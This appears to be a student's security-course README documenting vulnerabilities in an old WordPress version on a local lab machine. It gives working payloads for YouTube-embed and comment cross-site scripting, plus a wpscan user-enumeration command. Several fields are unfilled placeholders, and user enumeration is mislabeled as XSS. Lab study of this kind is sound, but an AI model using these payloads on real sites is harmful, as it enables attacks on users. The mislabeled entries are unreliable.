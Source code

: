 ## Unit 7 & 8 Project: WordPress vs. Kali

**Homework Instructions**:

Time spent: **48** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPres

### 1. (Required) Youtube Embedded Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="2022-10-28-12-50-39.gif">
- [ ] Steps to recreate: 
- Create a post with the following text: ``[embed src='http://www.youtube.com/embed/sss\x3csvg onload=alert(1)\x3e'][/embed]``
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  
### 2. (Required) Comment Cross-Site Scripting

- [ ] Summary: 
- Vulnerability types: XSS
- Tested in version: 4.2
- Fixed in version: 4.7.3
- [ ] GIF Walkthrough: <img src="Untitled design.gif">
- [ ] Steps to recreate: 
- Paste the following text in a comment: 
- ``<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 kb]..AAA'></a>``
- Make sure the character length is 64kb or more.
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) User Enumeration

- [ ] Summary: 
Vulnerability types: XSS
Tested in version: 4.2
Fixed in version: 4.7.3 
- [ ] GIF Walkthrough: <img src="2022-10-28-12-55-33.gif">
- [ ] Steps to recreate: 
- Paste the following code to kali-linux terminal: ``wpscan --url wpdistillery.vm --enumerate u``
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
